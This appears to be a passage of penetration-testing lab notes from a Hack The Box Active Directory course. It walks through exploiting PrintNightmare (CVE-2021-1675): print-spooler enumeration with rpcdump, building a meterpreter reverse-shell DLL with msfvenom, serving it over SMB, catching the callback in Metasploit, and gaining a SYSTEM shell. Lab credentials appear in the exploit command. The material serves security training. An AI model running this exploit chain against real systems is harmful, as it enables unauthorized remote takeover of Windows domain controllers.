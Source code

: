 We can use `rpcdump.py` to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

#### Enumerating for MS-RPRN
```shell-session
AhmaDb0x@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

#### Generating a DLL Payload
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

#### Creating a Share with smbserver.py
```shell-session
AhmaDb0x@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

#### Configuring & Starting MSF multi/handler
```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```


#### Running the Exploit
```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
```shell-session
(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```


---
---
---
---
----
---

## PetitPotam (MS-EFSRPC)